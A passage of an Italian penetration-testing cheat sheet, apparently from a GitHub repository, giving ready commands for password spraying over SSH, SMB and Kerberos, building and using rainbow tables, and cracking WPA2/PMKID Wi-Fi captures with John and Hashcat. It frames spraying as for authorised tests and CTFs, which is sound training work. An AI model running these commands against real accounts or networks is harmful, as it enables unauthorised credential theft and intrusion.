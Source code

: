 
## 🌐 Password Spraying

**Perché usarlo:**
Testa **una password comune su tanti utenti** evitando lockout. Da usare solo in scenari autorizzati.

**Opzioni principali:**

* Limitare i tentativi → 1 password/utente ogni 30–60 minuti
* Usare sleep/jitter tra batch
* Applicare a SSH, SMB, HTTP, Kerberos

### 🔹 Comandi diretti

```bash
# SSH (Hydra)
hydra -L users.txt -p Estate2025 ssh://10.10.10.10 -t 4

# SMB (CrackMapExec)
cme smb 10.10.10.0/24 -u users.txt -p "Password123"

# Kerberos (kerbrute)
echo Password2025! | kerbrute passwordspray -d corp.local --dc 10.10.10.5 users.txt
```

---

## 🌈 Rainbow Tables

**Perché usarle:**
Oggi poco diffuse (hash salati le rendono inutili), ma storicamente utili per **LM/NTLM/MD5**.

**Strumenti tipici:**

* `rcracki_mt` → cracking con rainbow tables
* `ophcrack` → GUI per LM/NTLM legacy

### 🔹 Comandi diretti

```bash
# Genera tabella rainbow
rtgen md5 loweralpha 1 8 0 2400 8000000 0
rtsort .

# Usa la tabella
rcracki_mt . -h <hash>
```

### 📡 Wi-Fi WPA2/PMKID

**Perché usarlo:**
Il cracking di handshake Wi-Fi (WPA2/WPA3-PMKID) è un classico in CTF.
Serve convertire il capture `.pcapng` in formato compatibile prima di passarlo a John o Hashcat.

```bash
# Conversione handshake/PMKID
hcxpcapngtool capture.pcapng -o wifi.hc22000

# Cracking con John (OpenCL se supportato)
john wifi.hc22000 --wordlist=rockyou.txt --format=wpapbkdf2

# In alternativa con Hashcat
hashcat -m 22000 -a 0 wifi.hc22000 rockyou.txt
```
